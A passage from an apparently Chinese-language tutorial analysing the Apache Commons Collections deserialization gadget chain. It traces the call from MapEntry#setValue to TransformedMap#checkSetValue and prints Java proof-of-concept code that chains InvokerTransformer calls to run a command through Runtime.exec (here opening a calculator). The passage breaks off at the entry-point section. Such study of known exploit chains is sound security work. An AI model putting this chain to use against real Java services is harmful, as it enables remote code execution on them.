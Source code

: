 接下来返回去继续找 `TransformedMap#checkSetValue()` 在哪里被调用，发现在`org.apache.commons.collections.map.AbstractInputCheckedMapDecorator.MapEntry#setValue()` 被调用。而 `MapEntry` 的功能也很简单，对 map 遍历。

![image-20230801173750984](attachments/image-20230801173750984.png)

总结一下，需要需要做的事情：

1. 调用 `TransformedMap.decorate()` 将之前构造的 Transformer 赋值给 `valueTransformer`
2.  `TransformedMap` 是对  `AbstractInputCheckedMapDecorator`  的抽象实现，直接遍历触发 `TransformedMap#checkSetValue()`

```java
        Transformer getMethodTransformer = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null});
        Method getRuntimeMethod = (Method) getMethodTransformer.transform(Runtime.class);
        Transformer runtimeTransformer = new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null});
        Runtime runtime = (Runtime) runtimeTransformer.transform(getRuntimeMethod);
        Transformer execTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"open -a Calculator.app"});
//        Transformer execTransformer = new InvokerTransformer("exec", new Class[]{String.class}, execArgs);
        execTransformer.transform(runtime);
        HashMap map = new HashMap();
        map.put("value", "value");
        Map<Object, Object> transMap = TransformedMap.decorate(map, null, execTransformer);
        for (Map.Entry entry : transMap.entrySet()) {
            entry.setValue(runtime);
        }
```

## 0x03 kick-off AnnotationInvocationHandler

反序列化调用链的 sink 和 chain 都构造好后，我们还需要寻找一个 kick-off （即反序列化的入口点）才能形成完整的调用链。需要满足以下条件：
